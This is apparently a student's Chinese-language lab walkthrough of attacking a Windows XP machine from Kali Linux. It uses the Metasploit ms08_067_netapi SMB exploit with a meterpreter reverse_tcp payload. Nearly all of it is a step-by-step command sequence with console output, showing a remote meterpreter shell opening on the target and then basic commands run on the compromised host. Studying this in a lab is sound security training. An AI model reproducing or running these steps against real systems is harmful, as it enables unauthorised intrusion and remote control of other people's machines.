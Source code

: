 ## Kali攻擊XP
---
<service postgresql start>先導入攻擊資料庫

<msfconsole>開啟攻擊面板
  
<use windows/smb/ms08_067_netapi>使用的漏洞

<show options>檢查設定
  
               Name     Current Setting  Required  Description
               ----     ---------------  --------  -----------
               RHOSTS                    yes       The target address range or CIDR identifier
               RPORT    445              yes       The SMB service port (TCP)
               SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

<set RHOSTS 10.0.2.5>設定欲攻擊的IP

<check>檢查是否有導入
 
<set payload windows/meterpreter/reverse_tcp>

<show options>再次檢查
  
               Module options (exploit/windows/smb/ms08_067_netapi):

                 Name     Current Setting  Required  Description
                 ----     ---------------  --------  -----------
                 RHOSTS   10.0.2.5         yes       The target address range or CIDR identifier
                 RPORT    445              yes       The SMB service port (TCP)
                 SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


              Payload options (windows/meterpreter/reverse_tcp):

                 Name      Current Setting  Required  Description
                 ----      ---------------  --------  -----------
                 EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
                 LHOST                      yes       The listen address (an interface may be specified)
                 LPORT     4444             yes       The listen port


              Exploit target:

                 Id  Name
                 --  ----
                 0   Automatic Targetinge

<set LHOST attact ip>設定攻擊者ip
  
<exploit>攻擊開始

                [*] Started reverse TCP handler on 10.0.2.4:4444 
                [*] 10.0.2.5:445 - Automatically detecting the target...
                [*] 10.0.2.5:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Chinese - Traditional / Taiwan
                [*] 10.0.2.5:445 - Selected Target: Windows XP SP3 Chinese - Traditional / Taiwan (NX)
                [*] 10.0.2.5:445 - Attempting to trigger the vulnerability...
                [*] Sending stage (179779 bytes) to 10.0.2.5
                [*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.5:1045) at 2020-10-19 11:01:38 -0400
                
---

## 此時以攻擊成功可控制XP                
                
---
<pwd>Linux指令檢查正在的目錄
                
                meterpreter > pwd
                C:\WINDOWS\system32
                
<cd /> 前往根目錄

<mkdir 檔名>創建資料夾

---
